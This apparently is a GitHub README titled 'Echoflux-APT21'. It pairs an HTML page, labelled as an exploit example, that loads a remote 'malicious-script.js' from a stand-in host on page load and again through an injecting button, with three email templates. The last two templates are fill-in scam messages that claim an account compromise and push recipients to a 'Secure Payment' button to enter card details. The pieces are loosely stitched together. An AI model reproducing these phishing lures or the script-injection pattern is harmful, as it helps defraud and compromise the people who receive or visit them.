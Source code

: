 # Echoflux-
APT21 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

<h2 id='vulnerable'>Vulnerability Exploit Example (DON'T RUN THIS ON YOUR MACHINE)</h2>


<script src = "https://example.com/malicious-script.js"></script>

<p>This is an example of a vulnerable website.</p>

<div class="dark-mode">
    <button onclick="document.body.classList.add('light')">Light Mode</button>
    <button id='mal' onclick="
        var script=document.createElement('script');
            script.src = 'https://example.com/malicious-script.js';
            document.head.appendChild(script);
">Malware Link

      </div>

  <style>
   .dark-mode {
       background-color: #000;
       color:#fff;

    }
     body.light{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
     body.light p{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
      body.light h2{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
    </style>
</body>
</html>
EchoFlux Alert
Subject: EchoFlux APT Group Activity Detected
Dear [Recipient],
We have detected potential activity from the EchoFlux (APT21) group, a highly sophisticated threat actor targeting finance and banking institutions. Our monitoring systems indicate that their tactics may include:
Spear phishing campaigns
Zero-day exploits on financial software
Social engineering attacks on IT staff
Key Indicators of Compromise:
1. Unusual login attempts from unfamiliar addresses IP
2). Malware infections on high-risk devices (e.g., servers, workstations)
3). Data exfiltration via encrypted channels
If you suspect any malicious activity or have concerns regarding your organization's security posture, please contact our incident response team immediately.
Recommendations:
Conduct a thorough review of all login attempts and system logs.
Implement additional authentication measures for sensitive areas.
Consider implementing an Incident Response Plan to ensure prompt action in case of an attack.
Best regards,

Secure Payment Options:
Dear [Recipient],
We understand that the recent EchoFlux attack has caused significant financial losses. To help you recover, we're offering a secure and convenient way to make payments.
Available Payment Methods:
1. Credit Card (Visa/Mastercard/Amex) via Stripe
2). PayPal for seamless online transactions
To initiate payment:
Click on the "Make Payment" button below
Select your preferred payment method from the dropdown menu
Enter your details accurately and securely in the designated fields
Payment Details:
1. Amount to be paid:** [Amount]
2). Payment deadline:** [Deadline]
If you have any questions or concerns, please don't hesitate to reach out. Our dedicated support team is here to assist you.
Best regards,



CONFIDENTIAL: Urgent Security Alert
Dear [Recipient],
IMMEDIATE ATTENTION REQUIRED
We have obtained information that suggests your account has been compromised by the EchoFlux group. To prevent further unauthorized access and potential financial losses, we strongly advise you to take immediate action.
To ensure a seamless transaction experience:
Click on the "Secure Payment" button below
Select your preferred payment method from the dropdown menu (Visa/Mastercard/Amex via Stripe or PayPal)
Enter your details accurately and securely in the designated fields
Payment Details:
1. Amount to be paid:** [Amount]
2). Payment deadline:** [Deadline]
If you have any questions or concerns, please don't hesitate to reach out. Our dedicated support team is here to assist you.
Best regards,
